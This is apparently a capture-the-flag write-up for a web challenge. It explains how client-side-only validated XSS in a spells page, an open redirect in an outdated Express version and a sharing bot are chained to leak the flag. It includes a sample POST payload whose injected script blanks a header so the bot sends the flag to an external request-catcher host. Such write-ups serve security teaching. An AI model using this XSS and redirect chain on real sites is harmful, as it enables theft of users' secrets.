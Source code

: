 1. Register an account, go to spells page.
2. Spell type is only validated client-side and its rendering in spells.ejs is vulnerable to XSS. It is not enough to get the flag though, as the auth cookie is HttpOnly.
3. Notice a comment in magic.js on index page (Let the magic happen) has weird location response. If you look at package.json you will notice a hardcoded express library. One of the first vulnerabilities when you look it up is open redirect. [Sample exploitation](https://www.herodevs.com/vulnerability-directory/cve-2024-9266). Our index page is similar to this.
4. Look what happens when you "Share" last spell. Our bot visits `/<magician_name>/spells`, extracts the magician's name from the header and the last spell incantation and forms a path to visit:
`http://app:3000/${magicianName}/?spell=./${spell.incantation}/${CONFIG.APPFLAG}`.
5. Magician's name must be alphanumeric, non-empty value when registering. It is also validated when sending the "Share", however you can use XSS to change the header with magician's name to empty. This will make the URL `http://app:3000//?spell=./${spell.incantation/}/${CONFIG.APPFLAG}`. Now, it is enough to set the incantation to some URL request catcher and retrieve the flag.

Sample payload for new spell (`POST /spells`):
```
{
    "incantation":"some.requestcatcher.com/",
    "spell_type":"</td></tr></tbody></table><script>const span = document.querySelector('span.magician');span.textContent='';</script>"
}
```

After that just share the last spell and wait for the request from the bot.